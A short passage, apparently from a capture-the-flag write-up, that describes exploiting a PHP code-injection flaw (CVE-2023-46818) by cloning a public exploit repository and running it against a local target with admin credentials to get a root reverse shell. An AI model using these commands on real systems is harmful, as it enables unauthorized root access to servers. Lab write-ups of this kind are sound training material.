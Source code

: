 ####
Looking for exploit, exist a vulnerability that allow inject *PHP* code into the target machine. **Metasploit** nos work here, at lest in my case, but a found other *CVE* exploit: [CVE-2023-46818-Exploit](https://github.com/blindma1den/CVE-2023-46818-Exploit/blob/main/exploit.py). So we can try with this.
####
```ruby
git clone https://github.com/blindma1den/CVE-2023-46818-Exploit.git
cd CVE-2023-46818-Exploit
python3 exploit.py http://localhost:8080 admin slowmotionapocalypse
```
####
This establish a revershell like a **root** user.